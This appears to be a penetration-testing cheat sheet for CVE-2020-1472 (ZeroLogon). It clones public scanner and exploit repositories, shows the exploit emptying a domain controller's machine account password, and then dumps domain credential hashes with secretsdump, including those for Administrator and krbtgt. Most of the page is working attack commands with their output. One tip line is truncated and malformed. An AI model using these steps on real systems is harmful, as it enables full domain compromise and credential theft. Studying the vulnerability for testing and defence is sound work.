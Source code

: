 icon:fontawesome/solid/unlock-keyhole

# CVE-2020-1472

CVE-2020-1472 - ZeroLogon

An elevation of privilege vulnerability exists when an attacker establishes a vulnerable Netlogon secure channel connection to a domain controller, using the Netlogon Remote Protocol (MS-NRPC). An attacker who successfully exploited the vulnerability could run a specially crafted application on a device on the network. To exploit the vulnerability, an unauthenticated attacker would be required to use MS-NRPC to connect to a domain controller to obtain domain administrator access.

- [printerbug.py](../assets/files/printerbug.py)

## Scanner

```bash
git clone https://github.com/SecuraBV/CVE-2020-1472.git
pip install -r requirements.txt
```

## Usage

```bash
$ python3 zerologon_tester.py DC2016 10.10.10.10
Performing authentication attempts...
=============================================================================
Success! DC can be fully compromised by a Zerologon attack.
```

Tip: for finding the computer name, use: rdesktop -u " IP

## Exploit

```bash
git clone https://github.com/dirkjanm/CVE-2020-1472.git
```

```bash
$ python3 cve-2020-1472-exploit.py DC2016 10.10.10.10
Performing authentication attempts...
=========================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

Dump using ’no-pass’ flag and computer account

```bash
$ secretsdump.py DC2016\$@10.10.10.10 -no-pass -just-dc
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
offsec.nl\johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\janedo:1110:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\tokio:1111:aad3b435b51404eeaad3b435b51404ee:b5165f7ba9b2b1a41245a1e91c48b3a9:::
[...]
[*] Cleaning up...
```

Or dump with empty hash

```bash
$ secretsdump.py DC2016\$@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
offsec.nl\johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\janedo:1110:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\tokio:1111:aad3b435b51404eeaad3b435b51404ee:b5165f7ba9b2b1a41245a1e91c48b3a9:::
[..SNIP...]
[*] Cleaning up...
```

## References

- [GitHub.com DirkJanM](https://github.com/dirkjanm/CVE-2020-1472)
- [Dirkjanm.io A different way of abusing zerologon](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)
- [GitHub.com SecuraBV](https://github.com/SecuraBV/CVE-2020-1472/)
- [GitHub.com DirkJanM krbrelayx](https://github.com/dirkjanm/krbrelayx)
